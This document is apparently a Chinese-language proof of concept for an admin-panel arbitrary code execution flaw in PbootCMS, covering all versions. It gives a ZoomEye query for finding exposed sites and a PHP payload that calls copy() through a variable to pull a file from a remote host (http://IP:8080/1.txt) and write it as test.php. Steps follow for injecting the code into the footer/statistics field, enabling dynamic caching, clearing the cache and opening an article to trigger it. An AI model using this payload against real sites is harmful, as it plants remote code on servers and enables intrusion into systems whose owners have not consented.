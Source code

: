 ## PbootCMS全版本后台通杀任意代码执行漏洞

## ZoomEye
```
app:"PbootCMS"
```

## poc
```
<?php

$test="copy";

$test("http://IP:8080/1.txt","test.php");

?>
```
在尾部信息和统计代码中（其他位置可能效果一样）插入php代码


![image](../../images/59c806d4-0ad6-41fd-b63e-8fed7966261f.png)

然后来到全局配置-配置参数

打开动态缓存(如果本就打开 那则不需要打开) 点击右上角的清除缓存
![image](../../images/4e5aeaab-c7c8-4fd2-af08-c16f922eb3ec.png)

![image](../../images/e96a68d8-205e-4aee-8fd3-e9177a868f40.png)

然后随便点击任意文章，触发漏洞

![image](../../images/0e4b0c28-99b4-405c-9e37-be7d1d55bcc9.png)
